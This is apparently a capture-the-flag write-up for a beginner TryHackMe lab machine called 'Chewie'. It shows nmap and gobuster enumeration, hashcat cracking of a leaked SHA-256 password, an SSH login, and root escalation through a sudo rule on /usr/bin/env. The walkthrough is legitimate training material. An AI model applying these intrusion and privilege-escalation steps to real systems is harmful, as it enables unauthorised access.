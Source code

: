 ```yaml
---
title: Chewie Writeup [TryHackMe]
published: true
---
```


# [](#header)Intro

This is actually my first ever VM i created and i hope it was an enjoyable machine for all of you to try :DD.

I design this room to be easy for beginners and more importantly i hope all of you enjoy.

Okay let's just get into hacking!!

<a href="https://tryhackme.com/room/chewie">
Link to the room
</a>

# [](#header)Enumeration

We start with nmap scan :

### nmap -sC -sV -oN nmap 192.168.100.11

- -sC : Equivalent to --script=default
- -sV : Probe open ports to determine service/version info
- -oN : Output scan in normal

```bash

SStarting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 09:41 WIB
Nmap scan report for 10.10.238.69
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:11:1e:54:86:a6:fc:76:3a:58:cf:34:95:1b:03:de (RSA)
|   256 a9:d0:aa:7f:9d:da:5c:1b:be:1f:03:ed:80:e6:1c:f9 (ECDSA)
|_  256 93:56:b3:e7:21:fa:32:f0:04:49:75:4f:61:0c:68:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Chewwie
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.34 seconds

```

We only have 2 ports open: 80 for Apache and 22 for SSH.

Visiting the webserver we get the following page:

<img src="{{ site.baseurl }}../assets/images/chewie_thm/web_page.png">

We can try to do directory scan with gobuster and add txt extension:

### gobuster dir -u http://192.168.100.11/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt

- dir : Uses directory/file brutceforcing mode
- -w : Path to the wordlist
- -u : To specify the url

```bash

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.69/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/06/18 09:45:16 Starting gobuster
===============================================================
/images (Status: 301)
/notes.txt (Status: 200)
Progress: 5045 / 220561 (2.29%)
```

We found `notes.txt` and inside we found a username and password for ssh.

<img src="{{ site.baseurl }}../assets/images/chewie_thm/note.png">

But the password was hashed and we have to crack it. There's a lot of ways of cracking password, but here i will use hashcat to crack the hash:

### hashcat -a 0 -m 1400 '5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0' /opt/wordlist/rockyou.txt

- -a : --attack-mode (0 for Straight mode)
- -m : --hash-type (1400 for sha256)

```bash
Dictionary cache hit:
* Filename..: /opt/wordlist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0:password101

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA2-256
Hash.Target......: 5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b...8ac4f0
Time.Started.....: Tue Jun 16 18:39:43 2020 (1 sec)
Time.Estimated...: Tue Jun 16 18:39:44 2020 (0 secs)
Guess.Base.......: File (/opt/wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    76479 H/s (3.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 20480/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: michael! -> 280789

Started: Tue Jun 16 18:39:01 2020
Stopped: Tue Jun 16 18:39:46 2020
```

A few minutes later the password was CRACKED!!

After that we can ssh to the machine with the user we found and the password we crack:

!<img src="{{ site.baseurl }}../assets/images/chewie_thm/ssh.png">

We can finally capture the user.txt in current directory:

<img src="{{ site.baseurl }}../assets/images/chewie_thm/user.png">

For the root flag, first we can use the command `sudo -l` for listng user's privileges or check a specific command:

```bash
lia@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for lia on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lia may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: /usr/bin/env
```

We can run `/usr/bin/env` as sudo. We can abuse that command to gain privilege as root by typing
<br> `sudo /usr/bin/env /bin/sh` and that's it! We are root :

<img src="{{ site.baseurl }}../assets/images/chewie_thm/esc_root.png">

We can finally capture the root.txt in /root directory:

<img src="{{ site.baseurl }}../assets/images/chewie_thm/root.png">

And that's it! We root the machine. Hope you guys enjoy reading this writeup.
Thank You :DD
